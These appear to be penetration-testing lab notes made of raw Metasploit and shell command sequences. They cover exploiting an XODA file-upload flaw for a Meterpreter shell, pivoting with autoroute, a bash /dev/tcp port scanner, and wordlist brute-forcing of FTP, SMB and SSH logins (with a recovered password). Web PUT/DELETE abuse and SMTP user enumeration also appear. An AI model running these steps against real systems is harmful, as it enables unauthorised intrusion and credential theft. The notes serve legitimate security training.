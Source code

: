 ### Port Scanning with Auxiliary Modules
auxiliary module used to discover multiple ports and service on target

### T1046 Network Service Scanning
	ip addr
	nmap ip
	curl ip
	msfconsole
	use exploit/unix/webapp/xoda_file_upload
	set RHOSTS ip
	set TARGETURI /
	exploit
	(in the meterpret exploit session)
	shell
	ip addr
	run autoroute -s ip
	use auxiliary/scanner/portscan/tcp
	set RHOSTS ip
	set verbose true
	set ports 1-1000
	exploit
	ls -l /root/tools/static-binaries
	nano bash-port-scanner.sh 
	#!/bin/bash
	for port in {1..1000}; do
	timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
	done
	cat bash-port-scanner.sh
	use auxiliary/scanner/portscan/tcp
	sessions -i 1
	(in meterpreter session)
	upload /root/tools/static-binaries /nmap/tmp/nmap
	upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
	cd /tmp/
	chmod +x ./nmap ./bash-port-scanner.sh
	./bash-port-scanner ip
	./nmap -p- ip


### FTP Enumeration
	ifconfig
	msfconsole
	use auxiliary/scanner/ftp/ftp_version
	set RHOSTS ip
	exploit
	use auxiliary/scanner/ftp/ftp_login
	set RHOSTS ip
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	exploit
	use auxiliary/scanner/ftp/anonymous
	set RHOSTS ip
	exploit
	ftp ip

### SMB Enumeration 
	ifconfig
	service postgresql start
	msfconsole
	workspace -a SMB_ENUM
	setg RHOSTS ip
	search type:auxiliary name:smb
	exploit
	use auxiliary/scanner/smb/smb_enumusers
	info
	exploit
	set ShowFiles true
	use auxiliary/scanner/smb/smb_login
	set RHOSTS ip
	set SMBUser admin
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
	exploit
	exit
	smbclient -L \\ip\public -U admin
	ls
	cd secret
	get flag
	cat flag


### Web server Enumeration
	ifconfig
	service postgresql start
	msfconsole
	setg RHOSTS ip
	search http
	search type:auxiliary name:http
	use auxiliary/scanner/http/http_version
	show options
	exploit
	search http_header
	use auxiliary/scanner/http/http_header
	exploit
	use auxiliary/scanner/http/robots.txt
	exploit
	use auxiliary/scanner/http/http_header
	set TARGETURl /secure
	exploit
	use auxiliary/scanner/http/brute_dirs
	exploit
	use auxiliary/scanner/http/dir_scanner
	set DICTIONARY /usr/share/metasploit-framework/data/wordlists/directory.txt
	exploit
	use auxiliary/scanner/http/dir_listing
	set PATH /data
	exploit
	use auxiliary/scanner/http/files_dir
	set VERBOSE false
	exploit
	use auxiliary/scanner/http/http_put
	set PATH /data
	set FILENAME test.txt
	set FILEDATA "Welcome To AttackDefense"
	exploit
	use auxiliary/scanner/http/http_put
	set PATH /data
	set FILENAME test.txt
	set ACTION DELETE
	exploit
	use auxiliary/scanner/http/http_login
	set AUTH_URl /secure/
	set VERBOSE false
	exploit
	use auxiliary/scanner/http/apache_userdir_enum
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set VERBOSE false
	exploit
	- auxiliary/scanner/http/apache_userdir_enum
	- auxiliary/scanner/http/brute_dirs
	- auxiliary/scanner/http/dir_scanner
	- auxiliary/scanner/http/dir_listing
	- auxiliary/scanner/http/http_put
	- auxiliary/scanner/http/files_dir
	- auxiliary/scanner/http/http_login
	- auxiliary/scanner/http/http_header
	- auxiliary/scanner/http/http_version
	- auxiliary/scanner/http/robots_txt

MySQL enumeration
=
	0. auxiliary/scanner/mysql/mysql_versoion
	1. auxiliary/scanner/mysql/mysql_login
	2. auxiliary/admin/mysql/mysql_enum
	3. auxiliary/admin/mysql/mysql_sql
	4. auxiliary/scanner/mysql/mysql_file_enum
	5. auxiliary/scanner/mysql/mysql_hashdump
	6. auxiliary/scanner/mysql/mysql_schemadump
	7. auxiliary/scanner/mysql/mysql_writable_dirs



### SSH Enumeration
	nmap -sV -O ip
	service postgresql staart
	msfconsole
	setg RHOSTS ip
	use auxiliary/scanner/ssh/ssh_version
	exploit
	use auxiliary/scanner/ssh/ssh_login
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	set STOP_ON_SUCCESS true
	exploit
	(username: sysadmin, password: hailey)
	ssh sysadmin@ip
	find / -name "flag"
	cat /flag

## SMTP Enumeration
simple mail transfer protocol is a communication protocol that is used for the transmission of email port (25)

	nmap -sV --script banner ip
	nc ip
	VRFY admin@openmailbox.xyz
	VRFY commander@openmailbox.xyz
	telnet ip
	HELO attacker.xyz
	EHLO attacker.xyz
	smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t ip
	msfconsole
	use auxiliary/scanner/smtp/smtp_enum
	set RHOSTS ip
	exploit
	

